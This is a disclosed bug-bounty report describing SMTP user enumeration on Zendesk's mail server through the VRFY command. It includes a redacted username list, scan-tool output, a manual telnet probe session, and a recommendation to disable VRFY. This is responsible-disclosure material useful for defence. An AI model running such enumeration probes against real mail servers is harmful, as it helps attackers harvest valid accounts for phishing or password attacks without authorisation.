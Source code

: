 # SMTP user enumeration via mail.zendesk.com

## Report Details
- **Report ID**: 193314
- **URL**: https://hackerone.com/reports/193314
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2016-12-22T08:40:44.150Z
- **Disclosed**: 2019-10-25T20:04:13.133Z

## Reporter
- **Username**: geeknik
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zendesk

## Vulnerability Information
Several methods exist that can be used to ██████████ SMTP to enumerate valid usernames and addresses; namely VRFY, EXPN, and RCPT TO. `mail.zendesk.com` does not reply to `EXPN` or `RCPT TO` so we will concentrate on `VRFY` in this report.

The VRFY command will request that the receiving SMTP server verify that a given email username is valid. The SMTP server will reply with the login name of the user. This feature can be turned off in sendmail, because allowing it can be a security hole. VRFY commands can be used to probe for login names on a system.

An example of this using VRFY is given below, where this list of users

```
admin
█████████
███
support
████
████████
security
test
test________________________1
```

is enumerated:

```
 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... names.txt
Target count ............. 1
Username count ........... 9
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............

######## Scan started at Thu Dec 22 08:29:37 2016 #########
mail.zendesk.com: ███████ exists
mail.zendesk.com: ██████ exists
mail.zendesk.com: █████████ exists
mail.zendesk.com: ██████ exists
mail.zendesk.com: ███
######## Scan completed at Thu Dec 22 08:29:38 2016 #########
5 results.

9 queries in 1 seconds (9.0 queries / sec)
```

This can also be manually verified:

```
███:~$ telnet mail.zendesk.com 25
Trying 192.161.153.1...
Connected to mail.zendesk.com.
Escape character is '^]'.
220 █████████ ESMTP
VRFY █████
252 2.0.0 ███████
VRFY test___________________1
550 5.1.1 <test___________________1>: Recipient address rejected: User unknown in local recipient table
quit
221 2.0.0 Bye
Connection closed by foreign host.
```

The `252 2.0.0 █████` message indicates success, while the `550 5.1.1` message indicates failure when the username does not exist on this server. 

**Mitigation**
Disable the `VRFY` command in your SMTP server configuration.

## Attachments
No attachments
